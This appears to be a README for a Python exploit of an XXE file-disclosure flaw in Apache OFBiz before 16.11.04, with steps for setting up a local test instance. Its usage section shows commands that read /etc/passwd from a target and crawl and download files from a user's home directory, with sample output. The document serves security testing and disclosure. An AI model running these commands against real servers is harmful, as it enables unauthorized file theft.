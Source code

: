 # Apache OFBiz XXE
XXE injection (file disclosure) exploit for Apache OFBiz &lt; 16.11.04

## Information
Apache OFBiz, before version 16.11.04, contains two distinct XXE injection vulnerabilities. The public disclosures for each vulnerability can be found below:

* [1] https://seclists.org/oss-sec/2018/q4/12
* [2] https://seclists.org/oss-sec/2018/q4/13

This exploit targets the vulnerability disclosed in link 1. Although this vulnerability was not assigned a CVE (the root cause lies in an outdated library), it is easier to exploit than the vulnerability disclosed in link 2 (CVE-2018-8033), which requires hosting an external DTD that the vulnerable server must reference in each request.

## Usage
### Display a single file
```
$ python exploit.py -u https://localhost:8443 -f /etc/passwd
```
### Crawl through directories
```
$ python exploit.py -u https://localhost:8443 -c /home/bob

[*] DIR: /home/bob
[*] DIR: /home/bob/docs
[*] FILE: /home/bob/docs/proposal.docx
[*] DIR: /home/bob/stuff
[*] DIR: /home/bob/stuff/more-stuff
[*] FILE: /home/bob/stuff/more-stuff/file2.txt
[*] FILE: /home/bob/stuff/more-stuff/secret.txt
[*] FILE: /home/bob/stuff/file3.txt
[*] FILE: /home/bob/file.txt
```
### Download a single file
```
$ python exploit.py -u https://localhost:8443 -f /home/bob/stuff/more-stuff/secret.txt -o ~/local/
$ ls ~/local/
home--bob--stuff--more-stuff--secret.txt
```

## OFBiz setup
Follow the steps below to setup OFBiz 16.11.04 in order to test this exploit. This was performed on Ubuntu.
```
$ sudo add-apt-repository ppa:webupd8team/java
$ sudo apt install oracle-java8-installer 
$ sudo update-alternatives --config java

$ wget https://archive.apache.org/dist/ofbiz/apache-ofbiz-16.11.04.zip
$ unzip apache-ofbiz-16.11.04.zip
$ cd apache-ofbiz-16.11.04/

$ ./gradlew cleanAll loadDefault
$ ./gradlew ofbiz
```
Browse to https://<ip:8443/ordermgr/control/main to make sure the installation was successful
